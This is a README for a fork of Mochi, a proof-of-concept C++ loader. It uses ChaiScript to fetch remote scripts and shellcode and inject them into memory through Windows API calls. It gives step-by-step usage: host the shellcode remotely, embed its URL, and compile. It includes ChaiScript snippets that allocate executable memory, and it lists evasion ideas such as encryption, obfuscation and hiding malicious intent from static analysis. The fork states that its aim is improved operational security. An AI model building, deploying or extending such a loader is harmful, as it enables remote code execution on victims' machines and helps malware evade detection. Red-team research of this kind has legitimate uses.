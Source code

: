 # Mochi | 餅

![logo](mochi-img.png)

## Preamble
This is a branch of shogunlab's Mochi. The purpose of this branch was to improve the OPSEC of Mochi, as to make changes to the code that were being done manually before. All credit goes to shogunlab.

## Overview
Mochi is a proof-of-concept C++ loader that leverages the [ChaiScript](https://chaiscript.com/) embedded scripting language to execute code. It is based on the [lcscript](https://github.com/domzigm/lcscript) project that extends ChaiScript with native Windows API call support. Mochi was built to allow remote loading of ChaiScript files that orchestrate lower level code and execute offensive actions with the Windows API.

Using a scripting language to extend malware in C++ is not a new idea. Of notable mention is the [Flame malware](https://en.wikipedia.org/wiki/Flame_(malware)), whose authors scripted high-level logic in [Lua](https://www.lua.org/). However, Mochi demonstrates that ChaiScript can be a viable alternative for implementing modularity and interacting with the Windows API from a scripting language. Additionally, ChaiScript was designed from the beginning to be used with C++. This makes integration and development straightforward for projects written in that language.

Inspiration for this capability came from the game development community and their usage of scripting languages with game engines. ChaiScript has been integrated into several game engines to support scripting functionality. For reference, see the following projects:
* https://github.com/libretro/libretro-chailove
* https://github.com/sainteos/nymph-game-engine
* https://gitlab.com/define-private-public/Masala

![screen_0](https://i.imgur.com/VhwNCdO.png)

## Features
* Code to perform tasks such as process injection can be omitted from the loader until required by an operator at runtime.
* Easily extend the Mochi loader with additional functionality using ChaiScript files. 
    * Included sample script ([inject.chai](Mochi/scripts/inject.chai)) demonstrates usage of the Windows APIs (VirtualAlloc, RtlMoveMemory) to setup shellcode injection.

## Limitations
* Code used to expose ChaiScript to the Windows API is no longer maintained by the original author.
* Usage of pointers within ChaiScript Windows API calls is complicated.
* A limited number of Windows API calls have been tested and successfully used within ChaiScript, there may be issues with implementing more complicated APIs.
* The `inject.chai` script sets up memory for process injection, but relies on a function defined within `Mochi.cpp` to perform the execution.

## Setup

### Build Environment
* A Windows 10 host was used as the environment for testing/compilation. 
* Visual Studio 2019 was used for development of this project.
* The Visual Studio package [Desktop Development with C++](https://devblogs.microsoft.com/cppblog/windows-desktop-development-with-c-in-visual-studio) was installed to support building the loader in C++.
* vcpkg was used to build and install the required ChaiScript libraries, it can be installed [here](https://github.com/microsoft/vcpkg#quick-start-windows).

### Automated Installation with vcpkg
I've used the script located [here](/helper_scripts/install_chaiscript_cpp_deps.ps1) to automate installation of **vcpkg** and the **ChaiScript** libraries on my host. Use this if you don't already have vcpkg installed.
* **NOTE:** Git is needed to fetch the vcpkg repo from GitHub and can be installed for Windows [here](https://gitforwindows.org).

### Manual Installation with vcpkg

To build the ChaiScript libraries, navigate to the location of your vcpkg install and execute the following command:
```
.\vcpkg.exe install chaiscript:x64-windows-static
```

## Usage

### Proof-of-Concept
The Mochi loader implements local process injection of a shellcode payload. This is intended to demonstrate the technique of using ChaiScript files that leverage the Windows API for offensive tasks. It does this by fetching the contents of a ChaiScript file, executing the script, the script will fetch the contents of a shellcode payload, it will call the Windows APIs to allocate/write memory and then call a function from inside Mochi to execute the memory.

To run the Mochi PoC, you'll need to perform the following steps:
1. Generate a shellcode payload in binary format.
* During testing, [sRDI](https://github.com/monoxgas/sRDI) was used to convert a [message box payload](https://github.com/monoxgas/sRDI/tree/master/TestDLL) DLL file to a shellcode "*.bin" file.
2. Upload the shellcode binary file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
3. Execute the following PowerShell helper script with your shellcode payload URL:
```
.\helper_scripts\chaiscript_inject_module_init.ps1 -payloadUrl "https://example.com/shellcode.bin"
```
4. At this point, the `inject.chai` file at the `Mochi\scripts\` path will be populated with your shellcode payload URL and be ready to execute.
5. Upload the `inject.chai` file to a remote hosting location, such as an S3 bucket. Obtain the URL and note it down.
6. Execute the following PowerShell helper script with your ChaiScript file URL:
```
.\helper_scripts\chaiscript_inject_module_init.ps1 -scriptUrl "https://example.com/inject.chai"
```
7. At this point, the `Mochi.cpp` file at the `Mochi\` path will be populated with your ChaiScript file URL and be ready for compilation.
8. Compile Mochi in the Visual Studio project and execute binary to validate successful initialization.

### Writing Scripts
To demonstrate how scripts can be written with ChaiScript to call the Windows API, see the following steps to call VirtualAlloc from kernel32.dll inside a ChaiScript file:
1. Import the library:
```
var libKernel32 = LoadLibrary("kernel32.dll");
```
2. Initialize the desired function:
```
var allocMem = funCall();
allocMem.init(libKernel32, "VirtualAlloc", 2);
```
3. Set up the required arguments:
```
var payload = "\xde\xad\xbe\xef";
var size = payload.size();
var allocType = 0x00001000;
var memProtect = 0x40;

allocMem.argUInt64(0);
allocMem.argUInt64(size);
allocMem.argUInt64(allocType);
allocMem.argUInt64(memProtect);
```
4. Call the function and assign the return value to a variable:
```
var allocAddr = allocMem.evalUInt64();
```

## OPSEC Considerations
Due to the PoC nature of this project, it was not built with OPSEC in mind. However, I will outline some possible features that could be present in a production deployment of this kind of project as well as OPSEC caveats:
* Feature: Encryption/decryption of ChaiScript files.
* Feature: Obfuscation/deobfuscation of ChaiScript files.
* Feature: Addition of ChaiScript modules that implement more modern methods of shellcode injection.
* Feature: Built-in string obfuscation in Mochi.
* Caveat: Mochi obscures the malicious intent of the binary during static analysis by omitting offensive functionality until execution of ChaiScript files during launch. It will ***NOT*** change anything from an evasion standpoint when it is observed during dynamic analysis. Additional obfuscation and evasion would need to be implemented in the ChaiScript files themselves if the intent is to mislead dynamic analysis tooling.

## Credits
* Dominik for the Windows API call support: https://github.com/domzigm/lcscript
* ondradus for the PoC HTTP request code: https://github.com/ondradus/WinINet---Simple-GET-POST-request
